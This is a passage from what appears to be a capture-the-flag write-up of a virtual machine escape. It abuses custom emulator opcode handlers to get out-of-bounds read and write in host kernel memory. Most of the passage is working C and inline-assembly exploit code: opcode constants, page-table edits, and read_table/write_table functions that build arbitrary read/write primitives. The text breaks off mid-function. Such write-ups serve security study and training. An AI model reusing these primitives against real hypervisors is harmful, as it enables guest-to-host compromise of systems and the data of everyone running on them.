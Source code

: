 For `iemOp_WriteTable` is similar. We just write the instruction first :

```c
inst[0x820/4] = WT;
```

Create `code` and modify it's PTE, then write some assembly to trigger the function :

```c
asm volatile(
        "mov rbx,0x100\r\n;" // index
        "mov rax, 0x4141414141414141\r\n;" // write 0x4141414141414141
        "mov rcx,%[code]\r\n;"
        "call rcx\r\n;" ::[code] "r"(code + 0x820) : "rax", "rbx", "rcx"
);
```

Since this triggers the functions in host's kernel space, now we have OOB r/w in host's kernel memory.


## Exploitation
### Create arbitrary read/write primitives

We need to create some primitives so later we can use them to do some further attack. First we setup some functions so we can do `iemOp_ReadTable` and `iemOp_WriteTable` :

```c
#define E1000_MMIO_BASE 0xf0000000
#define RT 0x00c3250f
#define WT 0x00c3270f

#define sll signed long long

static size_t __attribute__((optimize("O0"))) read_table(int *inst, char *code, sll idx) {
    
    /* iemOp_ReadTable */
    
    inst[0x820/4] = RT;
    size_t ret;
    asm volatile(
            "mov rbx,%[idx]\r\n;"
            "mov rcx,%[code]\r\n;"
            "call rcx\r\n;"
            "mov %[ret], rax\r\n;"
            :[ret]"=r"(ret)
            :[idx]"r"(idx),[code]"r"(code+0x820)
            :"rax","rbx","rcx"
    );
    return ret;
}

static void __attribute__((optimize("O0"))) write_table(int *inst, char *code, sll idx, size_t val) {
    
    /* iemOp_WriteTable */
    
    inst[0x820/4] = WT;
    asm volatile(
            "mov rbx,%[idx]\r\n;"
            "mov rax,%[val]\r\n;"
            "mov rcx,%[code]\r\n;"
            "call rcx\r\n;"
            :
            :[idx]"r"(idx),[val]"r"(val),[code]"r"(code+0x820)
            :"rax","rbx","rcx"
```